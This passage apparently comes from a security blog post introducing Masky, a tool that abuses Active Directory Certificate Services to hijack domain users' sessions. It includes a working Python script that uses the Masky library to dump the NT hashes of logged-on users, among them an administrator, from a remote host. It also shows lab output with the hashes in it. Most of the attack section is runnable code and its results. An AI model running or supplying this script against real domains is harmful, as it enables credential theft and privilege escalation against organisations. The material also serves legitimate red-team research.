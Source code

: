 Note that the FQDN of the CA server and the CA names must be provided to the tool. The `User` template must also be enabled on it. This information can be easily retrieved with the `find` Certipy commands as well as via the `certutil.exe` Microsoft utility.

All parameters and their usage are described within the Masky Github readme. Moreover, the tool can be used as a library to be integrated within other tools.

Below is a simple script using the Masky library to collect secrets of running domain user's sessions, from a remote target.

```python
from masky import Masky
from getpass import getpass


def dump_nt_hashes():
    # Define the authentication parameters
    ca = "srv-01.sec.lab\sec-SRV-01-CA"
    dc_ip = "192.168.23.148"
    domain = "sec.lab"
    user = "askywalker"
    password = getpass()

    # Create a Masky instance with these credentials
    m = Masky(ca=ca, user=user, dc_ip=dc_ip, domain=domain, password=password)

    # Set a target and run Masky against it
    target = "192.168.23.130"
    rslts = m.run(target)

    # Check if Masky succesfully hijacked at least a user session
    # or if an unexpected error occured
    if not rslts:
        return False

    # Loop on MaskyResult object to display hijacked users and to retreive their NT hashes
    print(f"Results from hostname: {rslts.hostname}")
    for user in rslts.users:
        print(f"\t - {user.domain}\{user.name} - {user.nt_hash}")

    return True


if __name__ == "__main__":
    dump_nt_hashes()
```

This generates the following output once executed on my testing lab.

```
$> python3 ./masky_demo.py
Password:
Results from hostname: SRV-01
         - sec\hsolo - 05ff4b2d523bc5c21e195e9851e2b157
         - sec\askywalker - 8928e0723012a8471c0084149c4e23b1
         - sec\administrator - 4f1c6b554bb79e2ce91e012ffbe6988a
```
